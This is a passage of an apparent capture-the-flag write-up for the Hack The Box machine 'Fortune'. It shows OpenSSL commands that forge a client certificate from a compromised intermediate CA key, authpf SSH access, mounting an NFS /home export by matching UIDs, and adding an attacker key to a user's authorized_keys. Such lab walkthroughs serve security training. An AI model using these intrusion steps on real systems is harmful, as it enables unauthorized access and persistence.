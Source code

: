 Then we sign the key with the certificate and private key of the intermediate ca:

```
openssl x509 -req -in alice_csr.pem -CA intermediate.cert.pem -CAkey intermediate.key.pem -out alice_cert.pem -set_serial 01 -days 365
```

Now that we have a valid certificate we can try to use it on port 443 (remember it required a client certificate). It would be intuitive to just import the cert in firefox or chrome, but unfortunately they can only import certificate and key together when they are in pkcs12 format. So we convert and import them in firefox:

```
openssl pkcs12 -export -clcerts -in alice_cert.pem -inkey alice_key.pem -out alice.p12
```

![](htb_fortune_certificate_manager.png)When going to website on port 443 now we are now given the option to generate a ssh private key and add it to authorized hosts:

![](htb_fortune_authpf.png)We copy the key to a file, change the permissions to 600 and try to ssh into the box with the username we found earlier, eventually succeeding by using "nfsuser":

```
➜  fortune ssh -i priv.key  nfsuser@fortune.htb

Hello nfsuser. You are authenticated from host "10.10.14.14"
```

We do however not get a login shell. The reason for this is that we have authenticated to [authpf](https://www.openbsd.org/faq/pf/authpf.html). Authpf will make changes to its ruleset after authenticating that allows traffic to pass through the filter. So at this point we should scan the box again to see what ports are open:

```
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
629/tcp  open  3com-amp3
2049/tcp open  nfs
8081/tcp open  blackice-icecap
```

We see that port 2049 is open and we have a user called nfsuser which strongly hints that we can probably mount something on the filesystem using nfs. Using the RCE from the beginning we read "/etc/exports" and get just one entry:

```
/home
```

This means we can mount /home with:

```
sudo mount 10.10.10.127:/home ./mount
```

At this point we can read the user.txt file from charlies home folder:

![](htb_fortune_userflag.png)The reason this worked so quickly is that charlie has uid 1000 on the box, the same uid as my user on my machine. NFS matches permissions based on the uid/gid on the server and the connected client. If my user didn’t have uid 1000 but instead 1001 the mounting would still have worked but as user bob.  
Enumerating the folders inside home we notice that we can write to the "authorized\_keys" file of charlie and decide to add our own public ssh key (generate with `ssh-keygen -f alice_key.pem -y > alice.pub`) to it, so we can finally ssh into the box:
